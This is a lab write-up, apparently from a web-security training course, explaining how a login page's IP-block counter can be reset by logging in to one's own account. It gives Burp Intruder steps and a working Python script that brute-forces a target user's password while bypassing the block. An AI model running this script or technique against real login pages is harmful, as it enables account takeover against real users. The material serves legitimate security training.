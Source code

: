# Broken brute-force protection, IP block
---
- It is highly likely that brute-force attack will involve many failed guesses before the attacker successfully compromises an account.
- **Logically**, brute-force protection revolves around trying to make it as tricky as possible to automate the process.

The `two` most common ways of preventing brute-force attacks are:
1. *Locking* the account that the remote user is trying to access if they make too many failed login attempts.
2. *Blocking* the remote user's IP address if they make too many login attempts in quick succession.

For **example**, you might sometimes find that your IP is blocked if you fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully. This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

# Lab: Broken brute-force protection, IP block
---
1.  With Burp running, investigate the login page. 
	- Observe that your IP is temporarily blocked if you submit 3 incorrect logins in a row. 
	- However, notice that you can reset the counter for the number of failed login attempts by logging in to your own account before this limit is reached.
2.  Enter an invalid username and password, then send the `POST /login` request to Burp Intruder. 
	- Create a pitchfork attack with payload positions in both the `username` and `password` parameters.
3.  On the **Resource pool** tab, add the attack to a resource pool with **Maximum concurrent requests** set to `1`. 
	- By only sending one request at a time, you can ensure that your login attempts are sent to the server in the correct order.
4.  On the **Payloads** tab, select payload set 1. 
	- Add a list of payloads that alternates between your username and `carlos`. 
	- Make sure that your username is first and that `carlos` is repeated at least 100 times.
5.  Edit the list of candidate passwords and add your own password before each one. Make sure that your password is aligned with your username in the other list.
6.  Add this list to payload set 2 and start the attack.
7.  When the attack finishes, filter the results to hide responses with a 200 status code. 
	- Sort the remaining results by username. 
	- There should only be a single 302 response for requests with the username `carlos`. 
	- Make a note of the password from the **Payload 2** column.
8.  Log in to Carlos's account using the password that you identified and access his account page to solve the lab.

```python
#!/usr/bin/env python3
# Broken brute-protection, IP block
# ---------------------------------
# Everytime, we got blocked. We login using our credentials
# To reset the block attempts.
# Keep looping until we found the correct credentials
import requests
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

MYUSER = "wiener"
MYPASS = "peter"

def pass_list(url, user, pass_path):
    with open(pass_path, 'r') as f:
        for passwords in f.readlines():
            password = passwords.replace('\n','')
            data = {'username':user, 'password':password}
            req = requests.post(url, data=data, verify=False, proxies=p)
            if "You have made too many incorrect login attempts." not in req.text and "Incorrect password" not in req.text:
                return password
            else:
                data = {'username':MYUSER, 'password':MYPASS}
                req = requests.post(url, data=data, verify=False, proxies=p)
            continue
        return False         

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        user = sys.argv[2].strip()
        password = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <user> <passwords>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com admin password".format(sys.argv[0]))
        sys.exit(1)

    print("[+] The username...  [{}]".format(user))
    print("[+] Enumerate the password...")
    passwd = pass_list(url, user, password)
    if passwd:
        print("[-] Found the password...    [{}]".format(passwd))
```